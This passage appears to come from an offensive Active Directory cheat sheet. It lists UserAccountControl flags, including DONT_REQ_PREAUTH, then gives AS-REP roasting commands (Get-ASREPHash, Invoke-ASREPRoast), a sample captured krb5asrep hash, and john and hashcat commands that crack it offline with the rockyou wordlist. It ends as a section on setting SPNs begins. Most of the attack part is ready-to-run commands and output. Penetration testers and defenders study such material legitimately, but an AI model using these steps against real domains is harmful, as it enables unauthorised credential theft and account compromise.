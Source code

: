 | NOT_DELEGATED<br>When this flag is set, the security context of the user is not delegated to a service even if the service account is set as trusted for Kerberos delegation. 	| 0x100000 	| 1048576
| USE_DES_KEY_ONLY<br>(Windows 2000/Windows Server 2003) Restrict this principal to use only Data Encryption Standard (DES) encryption types for keys. 	| 0x200000 	| 2097152
| DONT_REQ_PREAUTH<br>(Windows 2000/Windows Server 2003) This account does not require Kerberos pre-authentication for logging on. 	| 0x400000 	| 4194304
| PASSWORD_EXPIRED<br>(Windows 2000/Windows Server 2003) The user's password has expired. 	| 0x800000 	| 8388608
| TRUSTED_TO_AUTH_FOR_DELEGATION<br>(Windows 2000/Windows Server 2003) The account is enabled for delegation. This is a security-sensitive setting. Accounts that have this option enabled should be tightly controlled. This setting lets a service that runs under the account assume a client's identity and authenticate as that user to other remote servers on the network.  	| 0x1000000 	| 16777216
| PARTIAL_SECRETS_ACCOUNT<br>(Windows Server 2008/Windows Server 2008 R2) The account is a read-only domain controller (RODC). This is a security-sensitive setting. Removing this setting from an RODC compromises security on that server. 	| 0x04000000  	| 67108864

These are the default UserAccountControl values for the certain objects:
* Typical user : 0x200 (512)
* Domain controller : 0x82000 (532480)
* Workstation/server: 0x1000 (4096)

- Request encrypted AS-REP for offline brute-force
```powershell
Get-ASREPHash -UserName controleduser -Verbose
```
- All users with Kerberos preauth disabled and request a hash
```powershell
Invoke-ASREPRoast -Verbose
```
- Check if you can crack with john
```bash
$krb5asrep$controleduser@domain.local:13d55a1f0b1aa3c39a3c5a6815f40ee3$ee68bfe89b0fd40326189cf255a148957bd1d2900cce75fb3f3db56c4086e2d207641a1f5744fd9505ba39d0238b6828b6311eb049d6ee82e8d1deac23f61e252
ef6aaa7997a3445334280178bb5483f445a0e5156512f9421edfdd2b2dc04a3dddf951c90fbe647f01dd7f14a97a89ab96f89e3acc3cdfd113fa214fe10ee53cc47e99929e9358ba215cd161855d8945e7b2e9dacd4e16a77d53fbaedbb486dfb5a4726ed1d3f395618
6d1dbbe33b9fe6cd1d19e0993193cebd1f80c3fdfb2265fe7a6b6690d488400a80f272650a4a89dd84a1ce17651c103ae498226ab569e953998e4f1823e18632ede548a4c38923a5cb5ed6d1c49f5edf475f0f5690617dee6f898dfcd52e

john controleduser.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- Check if you can crack with hashcat, need add $23 
```bash
$krb5asrep$23$controleduser@domain.local:13d55a1f0b1aa3c39a3c5a6815f40ee3$ee68bfe89b0fd40326189cf255a148957bd1d2900cce75fb3f3db56c4086e2d207641a1f5744fd9505ba39d0238b6828b6311eb049d6ee82e8d1deac23f61e252
ef6aaa7997a3445334280178bb5483f445a0e5156512f9421edfdd2b2dc04a3dddf951c90fbe647f01dd7f14a97a89ab96f89e3acc3cdfd113fa214fe10ee53cc47e99929e9358ba215cd161855d8945e7b2e9dacd4e16a77d53fbaedbb486dfb5a4726ed1d3f395618
6d1dbbe33b9fe6cd1d19e0993193cebd1f80c3fdfb2265fe7a6b6690d488400a80f272650a4a89dd84a1ce17651c103ae498226ab569e953998e4f1823e18632ede548a4c38923a5cb5ed6d1c49f5edf475f0f5690617dee6f898dfcd52e

hashcat -m 18200 controleduser.txt /usr/share/wordlists/rockyou.txt -o cracked
```

---
#### SET SPN
With enough rights (GenericAll/GenericWrite), a target user's SPN can be set to anything
